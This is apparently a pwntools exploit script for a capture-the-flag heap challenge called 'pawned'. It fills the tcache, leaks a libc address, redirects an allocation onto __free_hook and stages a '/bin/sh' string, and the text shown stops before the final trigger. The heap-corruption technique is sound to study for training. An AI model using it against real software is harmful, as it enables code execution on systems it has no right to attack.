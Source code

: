 ```py

def b2f(data):
    return str(struct.unpack('<d', data)[0])

def i2f(n):
    return b2f(p64(n))

def sendchoice(choice: str):
    p.sendlineafter('> ', choice)

def buy_item(index: int):
    sendchoice('B')

    p.sendlineafter('buy?: ', str(index))

def manage_item(index: int, new_name: bytes = b'stdnoerr', new_price: int = 123, new_len: int = 0x80):
    sendchoice('M')

    p.sendlineafter('?: ', str(index))
    p.sendlineafter(': ', i2f(new_price) if type(new_price) == int else new_price)
    p.sendlineafter(': ', str(new_len))
    p.sendlineafter(': ', new_name)

def sell_item(name: bytes, price: int = 123, name_len: int = 0x80):
    sendchoice('S')

    p.sendlineafter(': ', i2f(price))
    p.sendlineafter(': ', str(name_len))
    p.sendlineafter(': ', name)

    if indexes.count(False) > 0:
        ret = indexes.index(False)
        indexes[ret] = True
        return ret + 1
    
    else:
        raise Exception("No index available")

def leave():
    sendchoice('L')

def print_items():
    sendchoice('P')

context.binary = elf = ELF('./pawned')
libc = ELF('./libc_2.31.so')
start()

a = sell_item('stdnoerr')
tcache = [sell_item(str(i)*8) for i in range(7)]

for i in tcache: buy_item(i)
buy_item(a)

print_items()
p.recvuntil('Name: ')
libc_leak = u64(p.recvline(False).ljust(8, b'\x00'))
libc.address = libc_leak - 0x1ebbe0 # main_arena + 96

manage_item(tcache[-1], p64(libc.sym.__free_hook), new_price = 's')

bin_sh = sell_item('/bin/sh')
```
